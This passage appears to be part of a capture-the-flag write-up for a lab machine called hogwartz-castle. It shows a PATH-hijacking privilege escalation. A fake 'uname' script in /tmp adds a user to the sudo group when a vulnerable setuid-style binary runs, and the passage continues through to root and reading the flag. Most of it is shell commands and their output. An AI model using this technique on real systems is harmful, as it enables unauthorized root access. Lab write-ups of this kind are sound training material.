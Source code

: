 ```
I was thinking of 1144253117
Guess my number: Nope, that is not what I was thinking
I was thinking of 1144253117
hermonine@hogwartz-castle:/tmp$
```
when stopping the rand () function. The first time you need to do is take the first executable rand () value and enter the second execute value.
now lets create binary at /tmp and add /tmp to $PATH, doing this for getting root privilage using path variable
```
hermonine@hogwartz-castle:/tmp$ touch uname
hermonine@hogwartz-castle:/tmp$ echo "sudo usermod -aG sudo harry" > uname
hermonine@hogwartz-castle:/tmp$ export PATH=/tmp:$PATH
hermonine@hogwartz-castle:/tmp$ chmod +x uname
```
that code in will add user harry to sudo group when /srv/time-turner/swagger will be executed

```
hermonine@hogwartz-castle:/tmp$ /srv/time-turner/swagger|grep -Eo '[^ ]+$' |tail -1| /srv/time-turner/swagger 
whoami
Guess my number: Nice use of the time-turner!
This system architecture is hermonine@hogwartz-castle:/tmp$ su harry
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

harry@hogwartz-castle:/tmp$ sudo su root
[sudo] password for harry: 
root@hogwartz-castle:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@hogwartz-castle:/tmp# cat /root/root.txt 
RME{M------------------------------f}
root@hogwartz-castle:/tmp#
```
Happy Hacking :D 